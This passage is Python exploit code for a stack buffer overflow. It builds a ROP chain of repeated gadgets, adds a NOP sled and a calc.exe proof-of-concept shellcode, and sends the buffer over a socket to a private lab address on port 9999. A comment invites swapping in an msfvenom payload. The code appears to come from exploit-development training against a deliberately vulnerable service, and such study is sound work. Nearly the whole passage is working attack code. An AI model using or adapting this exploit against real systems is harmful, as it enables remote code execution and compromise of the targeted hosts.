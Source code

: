 ```python
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e942cb)  # 0x77e942cb: mov dword [edx], eax ; pop esi ; pop ebp ; retn 0x000C ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)  # padding to compensate for pop esi instruction in the above ROP gadget
rop2 += struct.pack ('<L', 0x41414141)  # padding to compensate for pop ebp instruction in the above ROP gadget

# Padding between ROP Gadgets and shellcode. Arbitrary number (just make sure you have enough room on the stack)
padding2 = "\x90" * 250

# calc.exe POC payload created with the Windows API system() function.
# You can replace this with an msfvenom payload if you would like
shellcode = "\x31\xc0\x50\x68"
shellcode += "\x63\x61\x6c\x63"
shellcode += "\x54\xbe\x77\xb1"
shellcode += "\xfa\x6f\xff\xd6"

# 5000 byte total crash
filler = "\x43" * (5000-len(command)-len(crash)-len(parameters)-len(padding)-len(rop)-len(padding2)-len(padding2))
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.148", 9999))
s.send(command+crash+rop+parameters+padding+rop2+padding2+shellcode+filler)
s.close()
```
